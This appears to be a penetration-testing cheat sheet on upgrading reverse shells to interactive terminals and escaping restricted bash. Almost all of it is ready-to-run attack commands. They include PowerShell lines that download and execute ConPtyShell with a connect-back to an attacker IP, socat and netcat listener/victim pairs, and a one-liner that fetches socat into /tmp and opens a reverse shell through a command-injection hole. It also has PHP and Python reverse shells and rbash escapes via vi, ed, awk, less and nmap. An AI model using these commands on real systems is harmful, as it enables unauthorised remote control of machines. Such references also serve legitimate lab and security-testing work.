 # shell Escape / Interactive TTY

## windows interactive reverse powershell

{% embed url="https://github.com/antonioCoco/ConPtyShell" %}

#### Server (attacker) Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

#### Client Side (directly load from git repository):

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 3001
```

#### or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
```

#### or download the reverse shell and upload it to target yourself

```
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
IEX(IWR http://192.168.56.1/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 9999
```

## Linux Interactive Shell

### check $SHELL and $PATH

fix the path problem if you cant access default shells

```
export PATH=/bin:/usr/bin:$PATH
```



### Using Python & STTY

#### In your current non-interactive reverse shell type:

```
 python -c 'import pty; pty.spawn("/bin/bash")'
```

#### press Ctrl+z to send the shell to background

#### then in the same terminal type in:

```
echo $TERM >>> take note of terminal name
stty -a >>> take note of raws and columns numbers
stty raw -echo
fg
```

#### then you will have an empty terminal, type these:

```
 reset
 export SHELL=bash
 export TERM=xterm-256color  OR export TERM=xterm
stty rows <num> columns <cols>
```



### Using /usr/bin/script

#### in your current non-interactive reverse shell type in:

```
 /usr/bin/script -qc /bin/bash /dev/null
```

the rest is like the above method, we just use /usr/bin/script if python is not installed



### Using Socat & STTY

attacker:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Semi-interactive Spawn & Escape

### ​​rbash escape through SSH

```
ssh hackNos@<IP-Adress> -t "bash --noprofile"
```

### rbash escape through editors

```
vi
:set shell=/bin/bash
:shell
```

### escaping rbash – editor

```
ed
!'/bin/bash'
pwd
```

### escape rbash through reverse shell

```
nc -lvp 4545
php -r '$sock=fsockopen("ip-address",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip-address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

### rbash escape Awk

```
awk 'BEGIN {system("/bin/bash")}'
```

### interpreters

```
python -c 'import pty; pty.spawn("/bin/sh");'  
python3 -c 'import os; os.system("/bin/bash");'
perl -e 'exec "/bin/sh";'
ruby -e ‘exec "/bin/sh"’
lua -e 'os.execute('/bin/sh')'
```

### rbash bypass through binary file

```
less anyfile.txt
!'bash'
```

### sh

```
/usr/bin/script -qc /bin/bash /dev/null
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh"
```

### ​​within nmap

```
!sh
```

### rlwrap for Making the Shell Semi-interactive

```
# use with netcat or other shells
rlwrap nc -nvlp 1234
```

### in meterpreter

```
execute -f cmd.exe -H -c -i
```



